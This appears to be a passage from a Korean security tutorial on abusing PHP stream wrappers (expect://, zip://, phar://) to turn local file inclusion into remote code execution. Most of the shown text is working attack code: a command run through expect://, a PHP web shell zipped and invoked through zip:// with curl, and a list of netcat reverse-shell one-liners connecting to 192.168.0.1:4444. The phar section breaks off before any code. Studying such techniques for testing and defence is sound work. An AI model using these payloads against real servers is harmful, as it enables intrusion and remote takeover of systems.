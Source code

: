## expect://
Expect Wrapper는 스트림을 열어 PTY를 통해 프로세스의 stdio, stdout,stderr에 대한 엑세스를 제공한다. 쉽게 말해 URL 스트림을 통해 <u>시스템 명령을 실행시켜주는 Wrapper</u>이다.
하지만 기본적으로 지원하지 않아 PECL에서 제공하는 `Expect` 확장 프로그램을 설치해야 한다.

만약 Expect Wrapper를 공격 대상 서버에서 지원한다면, 아래의 코드를 통해 시스템 명령을 실행할 수 있다.
```shell
attacker$ curl "$URL?file=expect://ls"
```

## zip://
Zip Wrapper는 <u>압축 파일을 조작하기 위한 Wrapper</u>이다. 파일의 압축을 풀고 압축을 푼 파일 내의 코드를 실행시켜주는 기능을 한다.

LFI 취약점이 존재하며 압축 파일 업로드가 가능한 환경에서 RCE 공격을 하는 방법에 대해 알아보자.

먼저 웹셸을 생성하고 압축한 후 웹 서버 내에 웹셸 압축 파일을 업로드한다.
```shell
attacker$ echo "<?php system($_GET['cmd']); ?>" > cmd.php
attacker$ zip file.zip cmd.php
```

업로드한 파일의 경로가 `/var/www/html/uploads/file.zip`이라는 상황을 가정하고, LFI 취약점이 존재하는 페이지에서 Zip Wrapper를 이용하여 RCE를 수행한다.
```shell
attacker$ curl "$URL?file=zip:///var/www/html/uploads/file.zip%23cmd.php&cmd=whoami"
```

추가적으로 동일한 상황일 때 인라인 코드를 통해 리버스 셸을 연결할 수 있다.
먼저 공격자의 PC에서 `netcat`을 통해 특정 포트를 열어놓고 인라인 코드를 삽입하여 리버스셸을 연결한다.
※ [Girsh][Girsh] 등과 같은 툴을 통해 쉽게 리버스 셸 코드를 획득할 수 있다.
```shell
attacker$ nc -lvnp 4444
attacker$ curl "$URL?file=zip://file.zip#cmd.php&cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>&1|nc+192.168.0.1+4444>/tmp/f"
```
```shell
victim$ nc -e /bin/sh 192.168.0.1 4444
victim$ nc -e /bin/bash 192.168.0.1 4444
victim$ nc -c bash 192.168.0.1 4444
victim$ mknod backpipe p && nc 192.168.0.1 4444 0<backpipe | /bin/bash 1>backpipe
victim$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.1 4444 >/tmp/f
victim$ rm -f /tmp/p; mknod /tmp/p p && nc 192.168.0.1 4444 0/tmp/p 2>&1
victim$ rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 192.168.0.1 4444 > f
victim$ rm -f x; mknod x p && nc 192.168.0.1 4444 0<x | /bin/bash 1>x
```


## phar://
Phar Wrapper는 <u>PHP Archive를 지원하는 스트림 Wrapper</u>로, PHAR 파일 내부에 있는 데이터를 파일처럼 접근 가능하도록 도와준다.

여기서 PHAR(PHP Archive)이란 PHP에서 지원하는 압축 및 아카이브 포맷으로, 실행 가능한 PHP 코드를 포함할 수 있다. 기본적으로 생성 시 읽기 전용으로 설정되어 있다.
<br />
LFI 취약점이 존재하며 phar 파일 업로드가 가능한 환경에서 RCE 공격을 하는 방법에 대해 알아보자.
